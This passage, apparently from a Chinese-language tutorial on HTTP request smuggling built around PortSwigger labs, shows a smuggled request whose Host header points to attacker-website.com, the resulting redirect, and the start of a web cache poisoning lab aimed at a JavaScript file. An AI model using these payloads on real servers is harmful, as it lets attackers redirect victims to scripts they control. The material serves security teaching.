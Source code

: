Smugle 之后的请求会像以下这样：

```bash
GET /home HTTP/1.1
Host: attacker-website.com
Foo: XGET /scripts/include.js HTTP/1.1
Host: vulnerable-website.com
```

然后如果服务器根据 Host 进行跳转的话，我们会得到以下的 Response:

```bash
HTTP/1.1 301 Moved Permanently
Location: https://attacker-website.com/home/
```

这样，受害者，也就是访问`/scripts/include.js`这个的用户，会被跳转到我们控制的 url 了。

### Perform Web Cache Poisoning

这个场景也是基于上面的 Host 跳转的攻击场景，如果 Front 服务器还存在缓存静态资源的话，我们可以配合 HTTP Smuggling 进行缓存投毒，[Lab: Exploiting HTTP request smuggling to perform web cache poisoning](https://portswigger.net/web-security/request-smuggling/exploiting/lab-perform-web-cache-poisoning)

> This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding. The front-end server is configured to cache certain responses.
> 
> To solve the lab, perform a [request smuggling](https://portswigger.net/web-security/request-smuggling) attack that causes the cache to be poisoned, such that a subsequent request for a JavaScript file receives a redirection to the exploit server.

这个环境也是一个可以修改 Host 进行跳转的场景，而在`/post/next?postId=2`路由正好有一个跳转的 api 供我们使用，这个路由跳转到的是`/post?postId=4`。

根据题目描述，我们需要实现缓存投毒，例如这里我们就选择`/resources/js/tracking.js`进行投毒，LAB 还给了我们制造投毒的服务，于是我们可以进行以下设置：
